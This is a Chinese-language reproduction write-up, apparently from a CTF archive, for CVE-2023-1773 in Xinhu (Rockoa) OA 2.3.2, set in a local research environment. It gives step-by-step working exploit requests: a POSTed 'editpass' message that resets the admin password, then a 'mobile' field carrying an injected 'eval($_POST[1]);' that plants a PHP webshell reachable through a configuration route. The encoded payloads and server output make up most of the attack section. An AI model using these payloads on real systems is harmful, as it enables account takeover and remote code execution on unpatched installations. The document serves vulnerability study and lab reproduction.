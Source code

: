 # CVE-2023-1773

:::info

Tags

- 信呼 OA \<= 2.3.3 代码注入

官方数据库记录

> Rockoa 2.3.2 中发现一个漏洞。 它已被宣布为关键。 该漏洞影响组件配置文件处理程序的文件 webmainConfig.php 的未知代码。 这种操纵会导致代码注入。 攻击可以远程发起。 该漏洞已向公众披露并可能被使用。 VDB-224674 是分配给此漏洞的标识符。

:::

参考

- [记一次 CMS 代码审计 - Potat0w0](https://potatowo233.github.io/2023/12/23/%E8%AE%B0%E4%B8%80%E6%AC%A1CMS%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/)
- [NVD - CVE-2023-1773](https://nvd.nist.gov/vuln/detail/CVE-2023-1773)

:::warning

需要注意的是，这里环境复现需要自行在本地部署一个信呼 v2.3.2 的环境进行调试

环境已经打包好：[CTF-Archives/xinhu-v2.3.2: 信呼 v2.3.2 针对CVE-2023-1773的研究环境](https://github.com/CTF-Archives/xinhu-v2.3.2)

需要注意，环境初始化的时候

- 地址：`localhost`
- 数据库用户：`root`
- 数据库密码：`123456`

:::

首先，根据分析文章的流程，在本地环境中修改 `webmain/task/api/reimplatAction.php` 文件

```php
// 平台上通知过来的数据
public function indexAction()
{
    $body = $this->getpostdata();
    // add debug
    echo $body."<br>";
    if(!$body)return;
    $db   = m('reimplat:dept');
    // add debug
    $key   = $db->gethkey();
    $test=$this->jm->strlook($body,$key);
    echo $test."<br>";
    $bodystr = $this->jm->strunlook($body, $key);
    if(!$bodystr)return;
```

这样子，就可以在本地获取到处理过后的字符串

## 修改 admin 用户密码

然后，向路由 `/?p=webmain&d=task&m=reimplat|api&a=index` POST 以下数据

```json
{"msgtype":"editpass","user":"admin","pass":"123"}
```

![img](img/image_20240734-003447.png)

得到

```plaintext
{"msgtype":"editpass","user":"admin","pass":"123"}
31ae15.X3amdiGpSx5aZqNWaq6NSZVut2MjYWm5UmMnRnZ!GZIXUmqvZUmqEY2Jnh7Y:
```

继续向路由 `/?p=webmain&d=task&m=reimplat|api&a=index` POST 编码后的数据

![img](img/image_20240735-003506.png)

得到

```plaintext
31ae15.X3amdiGpSx5aZqNWaq6NSZVut2MjYWm5UmMnRnZ!GZIXUmqvZUmqEY2Jnh7Y:
l2WSyWmYkpFrx52Uy3mgh91umYqhh5CZ1pm0i46IrNmWgZu9j9CZjqWznoLQjFF7v4KQhZ2qr5K60Nd9jWSB08xrip4:
```

此时，用户 `admin` 的密码已经被修改，修改为 `123` 之后就可以直接登录

![img](img/image_20240736-003631.png)

## 写入 webshell

进一步攻击，写入 webshell

向路由 `/?p=webmain&d=task&m=reimplat|api&a=index` POST 以下数据

```json
{
    "msgtype":"editmobile",
    "user":"admin",
    "mobile":"11',name='\neval($_POST[1]);//"
}
```

![img](img/image_20240758-005805.png)

得到

```plaintext
31ae15.X3amdiGpSx5aZqNKompmcnltkcm2IraeXqYeeVpLIpczSW2RzOlLPoZKd0Z5aalJqal!R0celmW9ewdKZp8Wki4iYiLWDhL1jjV2gaGdSrQ::
```

将得到的数据再次 POST 过去

![img](img/image_20240758-005831.png)

此时查询数据库，就可以发现数据库的数据被篡改

![img](img/image_20240759-005924.png)

此时在系统上重新登录，然后访问 `/?p=webmain&d=system&m=cog|cog&ajaxbool=true&a=savecong` 路由，就是 webshell

![img](img/image_20240701-010115.png)

即可在远程环境中部署 webshell 后门，直接使用蚁剑进行利用即可
